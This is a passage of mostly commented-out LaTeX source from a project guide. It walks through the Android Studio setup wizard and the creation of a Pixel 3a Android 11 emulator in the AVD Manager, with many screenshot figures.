%     
\includegraphics[scale=0.5]{pics/as5.PNG}
%     \caption{Data Sharing screen}
% \end{figure}
% Choose any option for the Data Sharing screen
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as6.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as7.PNG}
% \end{figure}
% \end{multicols}
% Click \textbf{Next} on both of the above screens
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as8.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as9.PNG}
% \end{figure}
% \end{multicols}
% Click \textbf{Next} on both of the above screens
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as10.PNG}
%     \caption{Final Screen}
% \end{figure}
% Click on \textbf{Finish}. Thereafter you will see that the Components will begin downloading as seen in the figure below.
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as11.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as12.PNG}
% \end{figure}
% \end{multicols}
% Click on \textbf{Finish} after everything is completed. Thereafter you will see the \texttt{Welcome to Android Studio} screen.
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as13.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as14.PNG}
% \end{figure}
% \end{multicols}
% Click on \textbf{More actions} and then select the \textbf{AVD Manager} option. You will be lead to the \texttt{Android Virtual Device Manager} screen. Click on the \textbf{+ Create Virtual Device...} option.
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as15.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as16.PNG}
% \end{figure}
% \end{multicols}
% You will have to \textbf{Select Hardware}, and thereafter the \textbf{System Image}. For the purposes of this project the following specifications were utilised:
% \begin{itemize}
%     \item \textit{Hardware}: Pixel 3a
%     \item \textit{System Image}:
%     \begin{itemize}
%         \item \textit{Release name}: R
%         \item \textit{API Level}: 30
%         \item \textit{Target}: Android 11.0
%     \end{itemize}
% \end{itemize}
% You will have to download the System Image if it is not installed.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.3]{pics/as17.PNG}
%     \caption{License Agreement screen}
% \end{figure}
% Make sure to agree to the License Agreement before downloading the System Image and then click \textbf{Next}.
% \pagebreak
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.2]{pics/as18.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.2]{pics/as19.PNG}
% \end{figure}
% \end{multicols}
% Click on \textbf{Finish} after the install is done.
% \begin{multicols}{2}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.2]{pics/as20.PNG}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.2]{pics/as21.PNG}
% \end{figure}
% \end{multicols}
% You should be able to select the newly installed System Image and click on \textbf{Next}. Thereafter under the \textbf{Emulated Performance -$>$ Graphics} settings. Choose the \textbf{Software - GLES 2.0} option if you do not have a GPU on your host machine. If a GPU is present you can select the \textbf{Hardware - GLES 2.0} option. Thereafter click on \textbf{Finish}.
% Click on \textbf{Finish} after the download is completed.

% You should see the following in your \textbf{AVD Manager} now as shown below.
% \begin{figure}[H]
%     \centering
%     \includegraphics[scale=0.4]{pics/as22.PNG}
%     \caption{Android Emulator listed under the AVD Manager}
% \end{figure}
% Click on the green arrow to start up the newly created Android Emulator.
% \begin{figure}[H]
%     \centering
%     \includegraphics[scale=1]{pics/as23.PNG}
